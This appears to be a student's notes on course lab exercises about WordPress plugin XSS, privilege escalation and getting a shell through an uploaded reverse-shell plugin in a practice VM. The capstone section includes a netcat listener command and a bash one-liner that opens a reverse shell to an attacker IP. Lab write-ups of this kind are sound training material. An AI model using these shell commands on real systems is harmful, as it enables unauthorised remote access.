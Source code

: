 
1. Start Walkthrough VM 1 and replicate the steps learned in this Learning Unit to identify the basic XSS vulnerability present in the Visitors plugin. Based on the source code portion we have explored, which other HTTP header might be vulnerable to a similar XSS flaw?

X-Forwarded-For



2. Start Walkthrough VM 2 and replicate the privilege escalation steps we explored in this Learning Unit to create a secondary administrator account. What is the JavaScript method responsible for interpreting a string as code and executing it?

eval



3. **Capstone Lab**: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in **/tmp/**. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.

Since we have the WordPress admin account credentials, we can connect to **http://offsecwp/wp-login.php**.

Next goal is to upload a plugin that offers a reverse shell.
Trying https://github.com/4m3rr0r/Reverse-Shell-WordPress-Plugin

Finding my IP:
```bash
ifconfig
# Take the tun0 interface
```

![[Pasted image 20250311000355.png]]

Running the reverse shell:
```bash
nc -lnvp 4444
```

That worked!
![[Pasted image 20250311000314.png]]


```
cat /tmp/flag
```


Tips to improve the shell:
Since we have a pretty bad shell, simply run

```bash

# In a first terminal
nc -lvnp 4445

# In the poor terminal
/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.238/4445 0>&1'
```
This will fix the terminal :)
